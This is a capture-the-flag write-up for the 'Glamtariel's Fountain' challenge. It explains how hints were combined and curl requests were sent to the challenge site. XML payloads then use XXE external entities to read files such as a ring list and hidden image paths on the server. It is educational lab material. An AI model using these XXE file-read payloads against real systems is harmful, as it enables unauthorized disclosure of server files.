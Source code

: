 ```yaml
---
icon: material/xml
---
```


# Glamtariel's Fountain

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [fountain website](https://glamtarielsfountain.com/)

## Objective

!!! question "Request"
    Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.

??? quote "Akbowl"
    Huh - what? Why do you disturb Akbowl?<br/>
    I'm trying to get the ring in here for the Sporc Chief.<br/>
    Unlucky for me it's lost in this water basin thing.<br/>
    You will not get it out before Akbowl!


## Hints

??? hint "Significant CASE"
    Early parts of this challenge can be solved by focusing on Glamtariel's WORDS.

??? hint "eXternal Entities"
    Sometimes we can hit web pages with XXE when they aren't expecting it!


## Solution

The first hint talks about using the capitalized words in the messages to solve part of the challenge:

1. I don't know why anyone would ever ask me to TAMPER with the cookie recipe.
2. Kringle really dislikes it if anyone tries to TAMPER with the cookie recipe Glamtariel uses
3. I helped the elves to create the PATH here to make sure that only those invited can find their way here
4. The elves do a great job making PATHs which are easy to follow once you see them.
5. Did you know that I speak in many TYPEs of languages?
6. Fake tickets to get in here? Snacks that don't taste right? How could that be?
7. Careful with the fountain! I know what you were wondering about there. It's no cause for concern. The PATH here is closed!
8. Between Glamtariel and Kringle, many who have tried to find the PATH here uninvited have ended up very disAPPointed
9. I like to keep track of all my rings using a simple format, although I usually don't like to discuss such things.
10. I know I've heard through the ice cracks that Kringle is missing a special one. (i.e., special ring)
11. Wow!, what a beautiful silver ring! I don't have one of these. I keep a list of all my rings in my RINGLIST file.
12. I've heard Glamtariel talk in her sleep about rings using a different TYPE of language. She may be more responsive about them if you ask differently.

Putting the hints together, including the one we got from solving the Boria Door bonus levels, and information obtained by capturing data passing to and from our web browser from talking to the princess and the fountain, we find:
1. Image resouces are hosted at /static/images/ (i.e. /static/images/img3-1670608613565.png)
2. XXE in combination with the TYPE hints indicates we can probably also talk to the princess using XML
3. Talking to the princess and the fountain happens via POST to https://glamtarielsfountain.com/dropped
4. POST requests send 3 values: `imgDrop` (the image HTML ID), `who` (entity we're talking to), `reqtype` (json or xml)
5. Requests need to include a valid CSRF token (i.e., ticket) and cookies

Testing this out using cURL we can build the following request using cookies and ticket details copied from our web browser:
```shell
curl -X POST https://glamtarielsfountain.com/dropped \
-H "Content-Type: application/json" \
-H "Accept: application/json" \
-H $GRINCHUM \
-H $COOKIE \
-d '{"imgDrop":"img1","who":"princess","reqType":"json"}'
```

Messages on the websites are triggered via images names img1, img2, img3, and img4. After a while they are replaced with a new set, but the names remain the same. So we can just keep sending cURL requests with updated values for `imgDrop` and `who`. After some time we will hit the part where the eye appears in the UI. In the CLI this presents itself with a response that has the `visit` field set to an image resource.

```
{'appResp': "Careful with the fountain! I know what you were wondering about there. It's no cause for concern. The PATH here is closed!^Between Glamtariel and Kringle, many who have tried to find the PATH here uninvited have ended up very disAPPointed. Please click away that ominous eye!", 'droppedOn': 'fountain', 'visit': 'static/images/stage2ring-eyecu_2022.png,260px,90px'}
```

These images can be downloaded, but only if you ensure the ticket and cookie information is present in the request. Once we have gone through all iterations (i.e., the princess and fountain have nothing more to say about the items), we can switch to sending XML requests to the princess.

```shell
curl -X POST https://glamtarielsfountain.com/dropped \
-H "Content-Type: application/xml" \
-H "Accept: application/json" \
-H $GRINCHUM \
-H $COOKIE \
-d @req.xml
```

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<root>
<imgDrop>goldring</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>
```

This is where the XXE exploitation comes into play and we need to use the hints provided about PATH, APP, RINGLIST, and the simple file format of the ring list. Putting those together gives us the `/app/static/images/ringlist.txt` path. We can use techniques described at https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files to leverage XXE to make the server read the contents of that file. So let's modify our XML request data.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>
```

Similar to the response we received when the eye appeared, this will also send a response back that contains a `visit` field that points to an image file which we can download, making sure to include our ticket and cookie.

```
{'appResp': "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)", 'droppedOn': 'none', 'visit': 'static/images/pholder-morethantopsupersecret63842.png,262px,100px'}
```

pholder-morethantopsupersecret63842.png gives us `x_phial_pholder_2022` with `bluering`, `redring.txt`. There's alo a reference to a gold, red, and blue ring, and from the messages we already know the princess likes silver rings as well. So we use this information to define additional paths to access files from.

- /app/static/images/x_phial_pholder_2022/bluering.txt
- /app/static/images/x_phial_pholder_2022/redring.txt
- /app/static/images/x_phial_pholder_2022/goldring.txt
- /app/static/images/x_phial_pholder_2022/silverring.txt
- /app/static/images/x_phial_pholder_2022/greenring.txt

`silverring.txt` and `greenring.txt` again yield a `visit` field with an image resource in the response. The redring-supersupersecret928164.png image file has an inscription that says "goldring_to_be_deleted.txt". So we use XXE once more with `/app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt`.

```
{'appResp': "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.", 'droppedOn': 'none', 'visit': 'none'}
```

We need to use the `imgDrop` field again to hand over the right ring, so we need to move the XXE to another field for this to work. We need the XXE because we want to trigger the secret behavior like before, but we also need the `imgDrop` field to get the proper image across.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
<imgDrop>img1</imgDrop>
<who>princess</who>
<reqType>&xxe;</reqType>
</root>
```

```
{'appResp': "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!", 'droppedOn': 'none', 'visit': 'static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px'}
```

Useful:
- HTTP response headers: Werkzeug/2.2.2 Python/3.10.8
- There is a werkzeug console at: https://glamtarielsfountain.com/console

!!! done "Answer"
    `goldring-morethansupertopsecret76394734.png`

## Response

!!! quote "Akbowl"
    No! That's not yours!<br/>
    This birdbath showed me images of this happening.<br/>
    But I didn't believe it because nobody is better than Akbowl!<br/>
    Akbowl's head is the hardest! That's what the other sporcs tell me.<br/>
    I guess Akbowl's head is not the smartest.

